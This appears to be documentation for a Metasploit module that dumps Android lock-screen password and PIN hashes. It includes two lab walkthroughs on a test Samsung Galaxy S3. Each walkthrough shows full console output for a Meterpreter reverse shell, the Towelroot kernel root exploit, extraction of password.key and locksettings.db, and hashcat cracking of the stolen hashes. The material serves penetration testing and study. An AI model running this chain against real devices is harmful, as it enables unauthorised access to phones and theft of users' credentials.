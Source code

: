 ## Description

Post Module to dump the password hashes for Android System. Root is required.
To perform this operation, two things are needed.  First, a password.key file
is required as this contains the hash but no salt.  Next, a sqlite3 database
is needed (with supporting files) to pull the salt from.  Combined, this
creates the hash we need.  This can be cracked with Hashcat, mode 5800.
Samsung devices only have SHA1 hashes, while most other Android devices
also have an MD5 hash.  

A PIN is simply an all digit password.  

A Pattern lock is also an all digit password where each dot is represented by a number.

```
1   2   3

4   5   6

7   8   9
```

## Verification Steps

  1. Get root on an Android device
  2. Start msfconsole
  3. Do: ```use post/android/gather/hashdump```
  4. Do: ```set session [session]```
  5. Do: ```run```
  6. You should get a password hash to crack.

## Scenarios

### Passworded - Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

Using `towelroot` to get root.  Device is set to use Password as the screen lock.  Password is `test`.

```
resource (android.128.rb)> use exploit/multi/handler
resource (android.128.rb)> set payload android/meterpreter_reverse_tcp
payload => android/meterpreter_reverse_tcp
resource (android.128.rb)> set lport 9999
lport => 9999
resource (android.128.rb)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (android.128.rb)> setg verbose true
verbose => true
resource (android.128.rb)> run
[*] Started reverse TCP handler on 111.111.1.111:9999 
[*] Meterpreter session 1 opened (111.111.1.111:9999 -> 222.222.2.222:42547) at 2019-10-27 20:48:49 -0400
WARNING: Local file /root/metasploit-framework/data/meterpreter/ext_server_stdapi.jar is being used
WARNING: Local files may be incompatible with the Metasploit Framework

meterpreter > background
[*] Backgrounding session 1...
resource (android.128.rb)> use towelroot

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/android/local/futex_requeue  2014-05-03       excellent  Yes    Android 'Towelroot' Futex Requeue Kernel Exploit


[*] Using exploit/android/local/futex_requeue
resource (android.128.rb)> set session 1
session => 1
resource (android.128.rb)> run

[*] Started reverse TCP handler on 111.111.1.111:4444 
[+] Android version 4.4.2 appears to be vulnerable
[*] Found device: d2vzw
[*] Fingerprint: Verizon/d2vzw/d2vzw:4.4.2/KOT49H/I535VRUDNE1:user/release-keys
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/vnytm
[*] Loaded library /data/data/com.metasploit.stage/files/vnytm, deleting
[*] Waiting 300 seconds for payload
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:51741) at 2019-10-27 20:49:34 -0400

meterpreter > background
[*] Backgrounding session 2...
resource (android.128.rb)> use post/android/gather/hashdump
resource (android.128.rb)> set session 2
session => 2
resource (android.128.rb)> run

[!] SESSION may not be compatible with this module.
[*] Attempting to determine unsalted hash
[+] Saved password.key
[*] Attempting to determine salt
[*] OS Version: 4.4.2
[*] Attempting to load >=4.3.0 Android settings file
[+] Saved locksettings.db with length 4096
[+] Saved locksettings.db-wal with length 140112
[+] Saved locksettings.db-shm with length 32768
[+] Password Salt: 4aafc54dc502e88b
[+] SHA1: EA8457DE97836C955082AE77DBE2CD86A4E8BC0E:4aafc54dc502e88b
[+] Crack with: hashcat -m 5800 EA8457DE97836C955082AE77DBE2CD86A4E8BC0E:4aafc54dc502e88b
[*] Post module execution completed
msf5 post(android/gather/hashdump) > creds
Credentials
===========

host  origin        service  public  private                                                    realm  private_type        JtR Format
----  ------        -------  ------  -------                                                    -----  ------------        ----------
      222.222.2.222                  EA8457DE97836C955082AE77DBE2CD86A4E8BC0E:4aafc54dc502e88b         Nonreplayable hash  android-sha1


```

We can now crack the password with hashcat as per the last line.

```
# hashcat -m 5800 EA8457DE97836C955082AE77DBE2CD86A4E8BC0E:4aafc54dc502e88b --show
ea8457de97836c955082ae77dbe2cd86a4e8bc0e:4aafc54dc502e88b:test
```

### PIN - Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

Using `towelroot` to get root.  Device is set to use PIN as the screen lock.  Password is `1234`.

```
resource (android.128.rb)> use exploit/multi/handler
resource (android.128.rb)> set payload android/meterpreter_reverse_tcp
payload => android/meterpreter_reverse_tcp
resource (android.128.rb)> set lport 9999
lport => 9999
resource (android.128.rb)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (android.128.rb)> setg verbose true
verbose => true
resource (android.128.rb)> run
[*] Started reverse TCP handler on 111.111.1.111:9999 
[*] Meterpreter session 1 opened (111.111.1.111:9999 -> 222.222.2.222:39987) at 2019-10-27 21:04:57 -0400
WARNING: Local file /root/metasploit-framework/data/meterpreter/ext_server_stdapi.jar is being used
WARNING: Local files may be incompatible with the Metasploit Framework

meterpreter > background
[*] Backgrounding session 1...
resource (android.128.rb)> use towelroot

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/android/local/futex_requeue  2014-05-03       excellent  Yes    Android 'Towelroot' Futex Requeue Kernel Exploit


[*] Using exploit/android/local/futex_requeue
resource (android.128.rb)> set session 1
session => 1
resource (android.128.rb)> run

[*] Started reverse TCP handler on 111.111.1.111:4444 
[+] Android version 4.4.2 appears to be vulnerable
[*] Found device: d2vzw
[*] Fingerprint: Verizon/d2vzw/d2vzw:4.4.2/KOT49H/I535VRUDNE1:user/release-keys
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/rlotf
[*] Loaded library /data/data/com.metasploit.stage/files/rlotf, deleting
[*] Waiting 300 seconds for payload
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:57268) at 2019-10-27 21:05:25 -0400

meterpreter > background
[*] Backgrounding session 2...
resource (android.128.rb)> use post/android/gather/hashdump
resource (android.128.rb)> set session 2
session => 2
resource (android.128.rb)> run

[!] SESSION may not be compatible with this module.
[*] Attempting to determine unsalted hash
[+] Saved password.key
[*] Attempting to determine salt
[*] OS Version: 4.4.2
[*] Attempting to load >=4.3.0 Android settings file
[+] Saved locksettings.db with length 4096
[+] Saved locksettings.db-wal with length 206032
[+] Saved locksettings.db-shm with length 32768
[+] Password Salt: 4aafc54dc502e88b
[+] SHA1: 9E201EFFCC29C8F54E1ECEC307CB1DA18B6B6E6B:4aafc54dc502e88b
[+] Crack with: hashcat -m 5800 9E201EFFCC29C8F54E1ECEC307CB1DA18B6B6E6B:4aafc54dc502e88b
[*] Post module execution completed

```
We can now crack the password with hashcat as per the last line.

```
# hashcat -m 5800 9E201EFFCC29C8F54E1ECEC307CB1DA18B6B6E6B:4aafc54dc502e88b -a 3 ?d?d?d?d
hashcat (v5.1.0) starting...

...

Approaching final keyspace - workload adjusted.  

9e201effcc29c8f54e1ecec307cb1da18b6b6e6b:4aafc54dc502e88b:1234
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Samsung Android Password/PIN
Hash.Target......: 9e201effcc29c8f54e1ecec307cb1da18b6b6e6b:4aafc54dc502e88b
Time.Started.....: Sun Oct 27 21:06:04 2019 (0 secs)
Time.Estimated...: Sun Oct 27 21:06:04 2019 (0 secs)
Guess.Mask.......: ?d?d?d?d [4]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    41481 H/s (0.31ms) @ Accel:32 Loops:15 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1000/10000 (10.00%)
Rejected.........: 0/1000 (0.00%)
Restore.Point....: 0/1000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1023
Candidates.#1....: 1234 -> 1764
Hardware.Mon.#1..: Temp: 54c Util:100% Core: 705MHz Mem:1400MHz Bus:16

Started: Sun Oct 27 21:06:00 2019
Stopped: Sun Oct 27 21:06:05 2019
```
